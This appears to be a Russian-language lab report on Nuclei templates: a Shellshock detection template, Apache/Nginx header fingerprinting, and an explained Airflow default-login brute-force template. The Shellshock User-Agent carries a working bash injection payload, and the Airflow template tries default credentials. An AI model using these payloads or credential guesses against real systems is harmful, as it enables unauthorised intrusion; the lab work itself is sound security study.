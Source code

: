 # Лабораторная работа 5 Nuclei

## Детекция Shellshock

Шаблон (темплейт):
```yaml
id: shellshock-detection

info:
  name: Shellshock Vulnerability Detection
  author: VladGud
  severity: critical
  description: Detects Shellshock vulnerability on the target host.
  tags: shellshock

http:
  - method: GET
    path:
      - "{{BaseURL}}/cgi-bin/shockme.cgi"
    headers:
      User-Agent: "() { test;};echo \"Content-type: text/plain\"; echo; echo; /bin/cat /usr/lib/cgi-bin/shockme.cgi"
    matchers-condition: and
    matchers:
      - type: word
        words:
          - "#!/usr/local/bin/bash"
      - type: status
        status:
          - 200
```

Формируем http GET запрос с подмененным User-Agent (bash функция)

Пример запуска:
```shell
nuclei -u http://172.17.0.2 -t ./1.yaml
```

![Скриншот работы задания 1](1.png)

## Детекция Apache и Nginx по заголовку

Шаблон (темплейт):
```yaml
id: web-server-detection

info:
  name: Web Server Detection
  author: VladGud
  severity: info
  description: |
    Detects Apache and Nginx web servers based on the 'Server' header.

http:
  - method: GET
    path:
      - "{{BaseURL}}/"
    matchers-condition: or
    matchers:
      - type: word
        part: header
        words:
          - Apache
      - type: word
        part: header
        words:
          - Nginx
    headers:
      User-Agent: "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36"
```

Ищем в ответе на http GET в полях заголовка упоминания слов Apache и Nginx

Пример запуска:
```shell
go -u http://localhost -t ./2.yaml -p http://localhost:8080
```

![Скриншот работы задания 2](2.png)

## Описание предоставленного шаблона

Шаблон:
```yaml
id: airflow-api-default-login

info:
  name: Apache Airflow API - Default Logins
  author: Pavel Parkhomets
  severity: critical
  tags: api,airflow,default-login,brute-force

requests:
  - method: GET
    path:
      - "{{BaseURL}}/api/v1/dags"
    headers:
      # Auth in Airflow by using Basic HTTP
      Authorization: "Basic {{base64(username + ':' + password)}}"
      Content-Type: application/json
    payloads:
      username:
        - "airflow"
        # default user admin
        - "admin"
      password:
        - "airflow"
        # default password admin
        - "admin"
    # Cross Join for payload set
    attack: clusterbomb
    # if ('dag_id' in response) and (not kafka_server_socketservermetrics_successful_reauthentication_rate in response)
    matchers-condition: and
    matchers:
      - type: word
        words:
          - "dag_id"
      - type: word
        words:
          - "kafka_server_socketservermetrics_successful_reauthentication_rate"
        part: body
        negative: true
    # stop fuzzing when found combination
    stop-at-first-match: true
```

Проверяем на возможность аутентификации в Airflow Apache под дефолтными значениями пароля(`admin/airflow`) и имени пользователя (`admin/airflow`). Если происходит аутентификация, то сервер вернет `dag_id` и не вернет `kafka_server_socketservermetrics_successful_reauthentication_rate`